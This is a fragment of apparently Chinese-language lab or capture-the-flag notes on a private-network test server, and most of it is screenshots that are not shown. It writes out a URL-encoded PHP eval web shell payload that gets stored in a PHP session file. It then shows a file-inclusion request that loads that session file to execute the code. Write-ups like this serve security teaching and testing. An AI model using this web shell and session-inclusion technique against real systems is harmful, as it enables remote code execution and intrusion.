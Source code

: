 ![2f6cac1e8b951db41707985dbe3833c2.png](../../images/9e64e73785ff4c81ab1396cac9e0ed55.png)

同理写入shell
http://172.16.3.186/test/ctfs.php?ctfs=%3C?php%20@eval($_POST[123])?%3E
![68ae23eea056b9d1dedc97758c1c737a.png](../../_resources/5eddcb36898e49f29fe3a00e74ffdee3.png)

![435376ae8317efad82e29e369014fd57.png](../../images/4c104785428446a0b7ce791a791778a4.png)

过文件包含的漏洞解析恶意代码
http://172.16.3.186/test/incliue.php?filename=/var/lib/php/session/sess_fckfs41fifl0se62u0vq4bc0o2
![a6ea658c5fb8cfc4ae9d49f67b5ecb81.png](../../images/b91c289a7c8b4765821db7bed8b3c7c1.png)
